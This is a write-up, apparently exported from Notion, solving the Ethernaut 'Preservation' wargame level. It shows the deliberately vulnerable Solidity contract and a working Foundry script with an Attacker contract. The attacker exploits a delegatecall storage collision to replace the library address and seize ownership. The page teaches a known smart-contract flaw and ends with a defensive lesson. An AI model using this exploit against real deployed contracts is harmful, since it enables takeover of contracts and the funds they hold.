 ```yaml
---
title: "Preservation"
date: "2024-02-24"
lastmod: "2024-02-24T14:03:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
weight: 17
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/16"
next: "Recovery-1efddca3f4ed4053a79cb06c27873d49"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "15486d55-3b70-48eb-a93b-e9c33dcdd447"
  created_time: "2024-02-24T11:18:00.000Z"
  last_edited_time: "2024-02-24T14:03:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel16.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-24"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 17
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/16"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Recovery-1efddca3f4ed4053a79cb06c27873d49"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Recovery-1efddca3f4ed4053a79cb06c27873d49"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Preservation"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Preservation"
          href: null
  url: "https://www.notion.so/Preservation-15486d553b7048eba93be9c33dcdd447"
  public_url: null
UPDATE_TIME: "2024-02-24T21:53:49.838Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


This contract utilizes a library to store two different times for two different
timezones. The constructor creates two instances of the library for each time
to be stored.


The goal of this level is for you to claim ownership of the instance you are given.


Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function,
how it works, how it can be used to delegate operations to on-chain.
libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}

```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,Preservation} from "../src/16.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_16");
        address pubKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);

        Attacker attacker = new Attacker();

        attacker.attack(addr, pubKey);
        console.logAddress(Preservation(addr).owner());

        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Preservation {
  function timeZone1Library() external returns(address);
  function setFirstTime(uint _timeStamp) external;
  function owner() external returns(address);
}

contract Attacker {
  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;

  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  function attack(address _preservation, address newOwner) public {
      Preservation preservation = Preservation(_preservation);
      preservation.setFirstTime(uint160(address(this)));
      preservation.setFirstTime(uint160(address(newOwner)));
  }

  function setTime(uint _time) public {
    owner = address(uint160(_time));
  }
}

```


As the previous level, `delegate` mentions, the use of `delegatecall` to call
libraries can be risky. This is particularly true for contract libraries that
have their own state. This example demonstrates why the `library` keyword
should be used for building libraries, as it prevents the libraries from
storing and accessing state variables.

